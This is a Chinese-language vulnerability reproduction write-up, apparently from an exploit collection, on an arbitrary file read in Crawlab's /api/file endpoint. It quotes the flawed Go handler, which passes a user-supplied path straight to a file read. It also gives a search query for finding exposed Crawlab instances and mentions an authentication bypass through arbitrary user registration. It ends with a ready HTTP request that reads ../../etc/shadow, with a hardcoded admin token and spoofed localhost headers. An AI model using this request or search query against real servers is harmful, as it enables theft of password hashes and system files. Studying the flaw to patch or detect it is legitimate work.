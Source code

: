 # Crawlab file 任意文件读取漏洞

## 漏洞描述

Crawlab 后台 /api/file接口 存在任意文件读取漏洞，攻击者通过漏洞就可以读取服务器中的任意文件

## 漏洞影响

```
Crawlab v0.0.1
```

## 网络测绘

```
title="Crawlab"
```

## 漏洞复现

登录页面

![](./images/202205241440512.png)

首先查看路由位置 main.go 文件 中的 file 接口对应的函数

![](./images/202205241440175.png)

```
package routes

import (
	"crawlab/utils"
	"github.com/gin-gonic/gin"
	"io/ioutil"
	"net/http"
)

// @Summary Get file
// @Description Get file
// @Tags file
// @Produce json
// @Param Authorization header string true "Authorization token"
// @Success 200 json string Response
// @Failure 400 json string Response
// @Router /file [get]
func GetFile(c *gin.Context) {
	path := c.Query("path")
	fileBytes, err := ioutil.ReadFile(path)
	if err != nil {
		HandleError(http.StatusInternalServerError, c, err)
	}
	c.JSON(http.StatusOK, Response{
		Status:  "ok",
		Message: "success",
		Data:    utils.BytesToString(fileBytes),
	})
}
```

![](./images/202205241440403.png)

接口调用为后台才可调用，通过任意用户添加可以完成绕过

path参数可控，发送Get请求读取任意文件

```
GET /api/file?path=../../etc/shadow HTTP/1.1
Host: 
Content-Length: 0
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYwZGQxOWU0YmZjNzg3MDAxZDk1NjBjOSIsIm5iZiI6MTYzOTMwNTI2MiwidXNlcm5hbWUiOiJhZG1pbiJ9.mFRAwXN-QqTmFmPAxgFEJhVXwxVuxJMepHe4khADfgk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
```

![](./images/202205241441701.png)